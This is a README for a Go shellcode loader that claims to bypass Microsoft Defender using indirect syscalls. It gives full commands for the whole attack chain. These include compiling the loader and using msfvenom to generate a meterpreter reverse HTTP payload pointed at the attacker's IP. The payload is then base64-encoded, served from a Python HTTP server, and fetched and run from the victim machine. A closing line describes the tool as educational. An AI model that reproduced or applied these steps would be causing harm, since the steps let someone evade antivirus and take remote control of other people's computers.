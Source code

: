 # Overview
A simple golang loader that bypass Defender.

It uses [acheron](https://github.com/f1zm0/acheron) to make some indirect syscalls.
> I am currently working on improving this project and enhancing my skills in offensive Go. Any feedback is welcome!

### Compiling

```bash
GOOS=windows GOARCH=amd64 go build -ldflags="-s -w" loader.go
```

### Usage

Generate the shellcode to execute, I usually use Havoc but it works with anyone:

```bash
msfvenom -p windows/x64/meterpreter_reverse_http LHOST=YOUR_IP LPORT=8080 -f raw -o shellcode.bin
base64 -w0 shellcode.bin > shellcode.enc
```
or using Havoc C2:

![Havoc Shellcode Generator](https://i.imgur.com/iaNxbKi.png)
```bash
base64 -w0 shellcode.bin > shellcode.enc
```

There are several ways to create HTTP servers, I will use this one in the directory with the shellcode.enc:
```bash
python3 -m http.server 80
```
From the attacked machine run the following command:
```powershell
.\loader.exe -url http://<YOUR_IP>/shellcode.enc
```
![Shellcode Executed](https://i.imgur.com/XeUIL6C.png)

![msfvenom shellcode executed](https://i.imgur.com/2LMnHgQ.png)

![Havoc console](https://i.imgur.com/sk72waR.png)


> [!WARNING]
> This project is for educational purposes only. Do not run it on machines you do not own or have explicit permission to test.

